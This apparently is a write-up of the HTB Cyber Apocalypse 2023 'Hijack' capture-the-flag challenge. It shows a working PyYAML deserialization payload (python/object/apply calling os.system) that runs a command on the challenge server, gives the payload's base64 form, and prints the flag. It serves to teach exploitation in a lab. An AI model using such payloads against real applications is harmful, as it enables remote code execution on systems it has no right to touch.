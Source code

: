 ```yaml
---
description: >-
  Write Up For HTB Cyber Apocalypse CTF 2023 Misc challenge Hijack
title: Hijack
date: 2023-03-23 21:00:00 -0400
categories: [CTFs, HTB Cyber Apocalypse CTF 2023, Misc]
tags: [misc]
---
```


The security of the alien spacecrafts did not prove very robust, and you have gained access to an interface allowing you to upload a new configuration to their ship's Thermal Control System. Can you take advantage of the situation without raising any suspicion?

## Overview

Welcome to this write-up for the HTB Cyber Apocalypse CTF 2023 Misc challenge called "Hijack." In this challenge, we are tasked with taking advantage of a security vulnerability in an alien spacecraft's Thermal Control System (TCS) without raising any suspicion. Let's dive into the details!

## Understanding the Challenge

To start the challenge, we need to connect to the instance machine using `nc` (netcat) command:

```bash
nc <IP> <PORT>
```

Once connected, we are presented with three options in the TCS interface:

```
<------[TCS]------>
[1] Create config
[2] Load config
[3] Exit
```

The first step is to create a configuration by selecting option 1.

## Creating a Configuration

Let's take a look at the config creation process:

```
<------[TCS]------>
[1] Create config
[2] Load config
[3] Exit
> 1

- Creating new config -
Temperature units (F/C/K): F
Propulsion Components Target Temperature: 70
Solar Array Target Temperature: 100
Infrared Spectrometers Target Temperature: 421
Auto Calibration (ON/OFF): ON

Serialized config: ISFweXRob24vb2JqZWN0Ol9fbWFpbl9fLkNvbmZpZyB7SVJfc3BlY3Ryb21ldGVyX3RlbXA6ICc0MjEnLCBhdXRvX2NhbGlicmF0aW9uOiAnT04nLHByb3B1bHNpb25fdGVtcDogJzcwJywgc29sYXJfYXJyYXlfdGVtcDogJzEwMCcsIHVuaXRzOiBGfQ==
```

The serialized config is a base64-encoded string. To proceed, we need to decode it.

Based on prior experience, I know that the last two characters of the serialized config are `==`, indicating a base64 encoding. Let's decode it using an online tool like [CyberChef](https://gchq.github.io/CyberChef/#recipe=From_Base64('A-Za-z0-9%2B/%3D',true,false)&input=SVNGd2VYUm9iMjR2YjJKcVpXTjBPbDlmYldGcGJsOWZMa052Ym1acFp5QjdTVkpmYzNCbFkzUnliMjFsZEdWeVgzUmxiWEE2SUNjME1qRW5MQ0JoZFhSdlgyTmhiR2xpY21GMGFXOXVPaUFuVDA0bkxIQnliM0IxYkhOcGIyNWZkR1Z0Y0RvZ0p6Y3dKeXdnYzI5c1lYSmZZWEp5WVhsZmRHVnRjRG9nSnpFd01DY3NJSFZ1YVhSek9pQkdmUT09).

Decoded config:
```yaml
!!python/object:__main__.Config {IR_spectrometer_temp: '421', auto_calibration: 'ON', propulsion_temp: '70', solar_array_temp: '100', units: F}
```

Now, we have a YAML representation of the configuration. The `!!python/object:__main__.Config` indicates that this data can be deserialized using Python's YAML library.


## Understanding the Deserialization Exploit

To gain further insight, we researched the `!!python/object:__main__.Config` syntax. It turns out that it is related to PyYAML, a Python library for working with YAML. More information about PyYAML can be found [here](https://pyyaml.org/wiki/PyYAMLDocumentation).

In our search, we came across an article about Python YAML deserialization and how it can be exploited to achieve Remote Code Execution (RCE). You can read more about it [here](https://book.hacktricks.xyz/pentesting-web/deserialization/python-yaml-deserialization#rce).

The article provides details on the exploitation process. However, our teammate found a GitHub page with an exploit specifically tailored to this challenge. You can find it [here](https://github.com/TmmmmmR/python-app/blob/master/course-guide/insecure-deserialization/README.md#spoiler-2---discovery--exploitation-yaml).

## Modifying the Exploit

We quickly modified the exploit for our specific purpose. The goal is to make the instance machine run the system command `cat flag.txt` using the `os` module when deserializing the YAML data.

```yaml
!!python/object/apply:os.system ["cat flag.txt"]
```

The exploit, in base64-encoded form, looks like this:

```
ISFweXRob24vb2JqZWN0L2FwcGx5Om9zLnN5c3RlbSBbImNhdCBmbGFnLnR4dCJd
```


## Running the Exploit

Before running the `cat flag.txt` command, we tried running `ls` to check if the exploit works and to locate the `flag.txt` file.

With the exploit ready, let's load the modified configuration:

```shell
<------[TCS]------>
[1] Create config
[2] Load config
[3] Exit
> 2

Serialized config to load: ISFweXRob24vb2JqZWN0L2FwcGx5Om9zLnN5c3RlbSBbImNhdCBmbGFnLnR4dCJd

HTB{1s_1t_ju5t_m3_0r_iS_1t_g3tTing_h0t_1n_h3r3?}
** Success **
Uploading to ship...
```


Boom! We successfully executed the exploit, and the flag is revealed:

```
HTB{1s_1t_ju5t_m3_0r_iS_1t_g3tTing_h0t_1n_h3r3?}
```


We have successfully completed the "Hijack" challenge in the HTB Cyber Apocalypse CTF 2023 Misc category. By exploiting the YAML deserialization vulnerability, we gained access to the alien spacecraft's system and retrieved the flag.